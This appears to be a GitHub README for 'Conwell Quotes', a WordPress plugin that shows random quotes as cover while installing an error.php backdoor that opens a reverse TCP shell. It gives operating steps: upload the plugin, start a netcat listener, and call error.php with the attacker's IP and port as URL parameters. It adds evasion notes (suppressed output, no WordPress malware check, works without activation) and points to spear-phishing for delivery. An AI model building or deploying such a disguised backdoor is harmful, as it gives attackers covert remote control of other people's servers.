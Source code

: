 # Conwell-Quotes
A malicious WordPress plugin that hides a reverse shell in a backdoor behind legitimate plugin functionality - used for offensive security purposes

# Purpose
Modeled after the Hello Dolly plugin, Conwell Quotes displays a random quote on each page of the WordPress admin portal based on Conwell's Acres of Diamonds (a great read BTW).  It also uploads an error.php backdoor that can be used to open a reverse TCP shell.  The reverse shell code was mostly written by Pen Test Monkey.  The print lines have been either commented out, suppressed, or slightly modified to avoid detection.

# Offensive Security Use
You'll want to pass the IP and port as URL parameters to error.php to match your attack system and then upload the plugin or use in combination with the spear phishing sample below. 

Upload the plugin to Wordpress, use netcat to open a listener on your attack machine, and then open http://example.com/wp-content/plugins/conwell/error.php?ip=XX.XXX.XXX.X&port=12345 in a browser.  The sceen will clock, but will not display any notable error messages.

# Note
Some hosts, like Bluehost, have their WordPress accounts on non-dedicated IPs which means they have nearly all ports blocked.  You may not be able to use the malicious shell in error.php.  However, the legitimate functionality in Conwell Quotes will still work and the user will not receive any error message.

When uploading the plugin, WordPress does not have any malware detection and so the plugin will install and activate as usual.  To get access to the reverse shell, the plugin does not need to be activated, it simply needs to be installed.  Yet another good reason to delete out any unused WordPress plugins.
